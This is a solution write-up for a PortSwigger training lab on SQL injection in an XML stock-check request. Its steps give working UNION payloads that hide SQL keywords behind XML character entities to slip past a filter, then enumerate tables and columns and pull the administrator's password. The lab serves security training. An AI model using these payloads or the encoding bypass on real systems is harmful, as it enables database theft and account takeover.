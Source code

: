 # [Lab: SQL injection with filter bypass via XML encoding](https://portswigger.net/web-security/sql-injection/lab-sql-injection-with-filter-bypass-via-xml-encoding)

## Lab

This lab contains a SQL injection vulnerability in its stock check feature. The results from the query are returned in the application's response, so you can use a UNION attack to retrieve data from other tables.

The database contains a `users` table, which contains the usernames and passwords of registered users. To solve the lab, perform a SQL injection attack to retrieve the admin user's credentials, then log in to their account.

## Solutions

1. capture request:

    ```http
    POST /product/stock HTTP/1.1
    Host: 0ae800bb043cba73c0a290b200fc0011.web-security-academy.net
    ...

    <?xml version="1.0" encoding="UTF-8"?><stockCheck><productId>1</productId><storeId>1</storeId></stockCheck>
    ```

2. Check SQLi, html encode characters:

    ```xml
    <?xml version="1.0" encoding="UTF-8"?><stockCheck><productId>1</productId><storeId>1 O&#82; 1=1-&#45;</storeId></stockCheck>
    ```

3. determining the number of columns:

    ```xml
    <?xml version="1.0" encoding="UTF-8"?><stockCheck><productId>1</productId><storeId>1 ORDER BY 1;</storeId></stockCheck>
    ```

    => response 892 units

    ```xml
    <?xml version="1.0" encoding="UTF-8"?><stockCheck><productId>1</productId><storeId>1 ORDER BY 2;</storeId></stockCheck>
    ```

    => response 0 units
    => 1 column
4. get table name:

    ```xml
    <?xml version="1.0" encoding="UTF-8"?><stockCheck><productId>1</productId><storeId>1 UNIO&#78; SELEC&#84; TABLE_NAME FROM information_schema.tables;</storeId></stockCheck>
    ```

5. get column names of `users` table:

    ```xml
    <?xml version="1.0" encoding="UTF-8"?><stockCheck><productId>1</productId><storeId>1 UNIO&#78; SELEC&#84; COLUMN_NAME FROM information_schema.columns WHERE TABLE_NAME = &apos;users&apos;</storeId></stockCheck>
    ```

6. get admin password:

    ```xml
    <?xml version="1.0" encoding="UTF-8"?><stockCheck><productId>1</productId><storeId>1 UNIO&#78; SELEC&#84; password FROM users WHERE username = &apos;administrator&apos;</storeId></stockCheck>
    ```

7. Login to admin account => Lab Solved

